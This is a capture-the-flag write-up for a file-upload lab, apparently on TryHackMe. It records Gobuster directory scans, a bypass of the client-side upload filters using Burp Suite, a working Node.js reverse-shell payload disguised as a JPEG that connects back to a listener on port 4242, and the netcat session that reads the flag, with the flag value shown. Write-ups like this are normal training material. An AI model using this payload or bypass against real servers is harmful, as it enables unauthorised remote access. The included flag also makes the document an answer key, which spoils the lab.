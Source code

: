 # steps to find the flag in http://jewel.uploadvulns.thm/
- uploaded a few files to and the file format acceptable appeared to be in jpeg,jpg

- ran Gobuster:
gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirb/common.txt -t 250 -x txt,php,js,html

Results:
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm/
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php,js
[+] Timeout:                 10s
===============================================================
2021/06/28 22:09:02 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 1238]
/ADMIN                (Status: 200) [Size: 1238]
/Admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/content              (Status: 301) [Size: 181] [--> /content/]
/Content              (Status: 301) [Size: 181] [--> /Content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
                                                              

- Using Wappalyzer, the technology for the page appeared to show Node.js.  As noted in previous exercises, Open Burp Suite, opened Proxy tab, options, and deleted js from the intercept client requests.  Also captured the intercept in Burp Suite and removed the filters from js script

//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}


- created a file with a NodeJS payload and uploaded to http://jewel.uploadvulns.thm/

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


- Ran Gobuster for the content folder after uploading the shell
gobuster dir -u http://jewel.uploadvulns.thm/content/ -w UploadVulnsWordlist(2).txt -t 250 -x jpg
Results:
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm/content/
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                UploadVulnsWordlist(2).txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jpg
[+] Timeout:                 10s
===============================================================
2021/06/29 00:27:11 Starting gobuster in directory enumeration mode
===============================================================
/ABG.jpg              (Status: 200) [Size: 380]
/ABH.jpg              (Status: 200) [Size: 705442]
/BSV.jpg              (Status: 200) [Size: 380]   
/FNL.jpg              (Status: 200) [Size: 380]   
/JUM.jpg              (Status: 200) [Size: 36767] 
/LLE.jpg              (Status: 200) [Size: 379]   
/LKQ.jpg              (Status: 200) [Size: 444808]
/NKG.jpg              (Status: 200) [Size: 380]   
/OJT.jpg              (Status: 200) [Size: 379]   
/PEF.jpg              (Status: 200) [Size: 6872]  
/PRB.jpg              (Status: 200) [Size: 380]   
/RSG.jpg              (Status: 200) [Size: 380]   
/SAD.jpg              (Status: 200) [Size: 247159]
Progress: 27712 / 35154 (78.83%)                 [ERROR] 2021/06/29 00:32:07 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/ULM.jpg              (Status: 200) [Size: 380]   
/VCM.jpg              (Status: 200) [Size: 36767] 
/YCJ.jpg              (Status: 200) [Size: 383]

- While listening to port 4242, navigated to http://jewel.uploadvulns.thm/admin, and executed ../content/LKQ.jpg to connect shell

nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.9.34] from (UNKNOWN) [10.10.229.82] 44182
pwd
/var/www/html
cd ..
pwd
/var/www
ls
flag.txt
html
cat flag.txt
THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}
